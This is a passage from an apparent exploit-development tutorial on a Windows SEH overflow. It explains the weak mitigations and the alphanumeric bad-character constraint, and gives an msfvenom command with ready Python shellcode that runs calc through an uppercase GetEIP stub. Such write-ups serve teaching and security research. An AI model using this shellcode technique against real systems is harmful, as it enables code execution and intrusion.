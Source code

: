 We notice a few points that make the exploitation easier : 
- [Data Execution Prevention](https://docs.microsoft.com/en-us/windows/win32/memory/data-execution-prevention) is disabled so we can execute code directly on the stack.
- There is plenty of non-ASLR modules in the address space, including the main executable.  
- There is multiple non-SafeSEH modules (we'll come back to this).
- Only Windows servers have SEHOP enabled by default so we won't have to deal with it here.  

## Badchars 
---

(You can skip this part if you only care about SEH)

The main difficulty in this exploit is the available character set. 
Indeed we can only send alphanumeric uppercase characters as well as a few special characters.
Msfvenom is unable to generate a shellcode fully compliant with those constraints because the GetEIP procedure that it uses involves non-alphanumeric characters. 
To solve this problem, one may store the address of the shellcode in a controlled register and tell msfvenom not to 
generate the GetEIP part of the shellcode as explained [here](https://www.offensive-security.com/metasploit-unleashed/alphanumeric-shellcode/).
In our case we will have just `ret` to our shellcode so ESP - 4 will point to the beginning of our shellcode 
allowing us to craft an easy alphanumeric GetEIP code.  

This is the shellcode we will be using. It's coming straight from 
`msfvenom -a x86 --platform windows -p windows/exec CMD='calc' -e x86/alpha_upper --format python -v shellcode BufferRegister=ECX -f python`
with an alphanumeric uppercase GetEIP code appended at the beginning that stores the current instruction pointer into ECX.  

```python
shellcode = b"\x4c"*4 # dec esp * 4
shellcode += b"\x59" # pop ecx
shellcode += b"\x83\xC1\x08" # add ecx, 0x8
# Now ECX points to our shellcode
shellcode += b"\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
shellcode += b"\x51\x5a\x56\x54\x58\x33\x30\x56\x58\x34\x41"
shellcode += b"\x50\x30\x41\x33\x48\x48\x30\x41\x30\x30\x41"
shellcode += b"\x42\x41\x41\x42\x54\x41\x41\x51\x32\x41\x42"
shellcode += b"\x32\x42\x42\x30\x42\x42\x58\x50\x38\x41\x43"
shellcode += b"\x4a\x4a\x49\x4b\x4c\x4b\x58\x4c\x42\x33\x30"
shellcode += b"\x33\x30\x33\x30\x55\x30\x4b\x39\x5a\x45\x46"
shellcode += b"\x51\x49\x50\x42\x44\x4c\x4b\x36\x30\x50\x30"
shellcode += b"\x4c\x4b\x50\x52\x44\x4c\x4c\x4b\x51\x42\x35"
shellcode += b"\x44\x4c\x4b\x32\x52\x47\x58\x44\x4f\x48\x37"
shellcode += b"\x50\x4a\x37\x56\x36\x51\x4b\x4f\x4e\x4c\x47"
shellcode += b"\x4c\x45\x31\x53\x4c\x34\x42\x46\x4c\x57\x50"
shellcode += b"\x49\x51\x38\x4f\x44\x4d\x53\x31\x48\x47\x4b"
shellcode += b"\x52\x5a\x52\x31\x42\x31\x47\x4c\x4b\x56\x32"
shellcode += b"\x52\x30\x4c\x4b\x30\x4a\x37\x4c\x4c\x4b\x30"
shellcode += b"\x4c\x42\x31\x33\x48\x4a\x43\x57\x38\x45\x51"
shellcode += b"\x38\x51\x30\x51\x4c\x4b\x51\x49\x57\x50\x35"
shellcode += b"\x51\x48\x53\x4c\x4b\x47\x39\x42\x38\x5a\x43"
shellcode += b"\x37\x4a\x47\x39\x4c\x4b\x36\x54\x4c\x4b\x55"
shellcode += b"\x51\x48\x56\x50\x31\x4b\x4f\x4e\x4c\x4f\x31"
shellcode += b"\x38\x4f\x54\x4d\x45\x51\x49\x57\x36\x58\x4d"
shellcode += b"\x30\x34\x35\x4c\x36\x54\x43\x43\x4d\x4a\x58"
shellcode += b"\x37\x4b\x33\x4d\x37\x54\x53\x45\x5a\x44\x56"
shellcode += b"\x38\x4c\x4b\x31\x48\x37\x54\x53\x31\x59\x43"
shellcode += b"\x32\x46\x4c\x4b\x54\x4c\x50\x4b\x4c\x4b\x30"
shellcode += b"\x58\x35\x4c\x43\x31\x39\x43\x4c\x4b\x53\x34"
shellcode += b"\x4c\x4b\x43\x31\x58\x50\x4b\x39\x30\x44\x57"
shellcode += b"\x54\x51\x34\x31\x4b\x51\x4b\x35\x31\x51\x49"
shellcode += b"\x31\x4a\x56\x31\x4b\x4f\x4b\x50\x51\x4f\x51"
shellcode += b"\x4f\x50\x5a\x4c\x4b\x44\x52\x5a\x4b\x4c\x4d"
```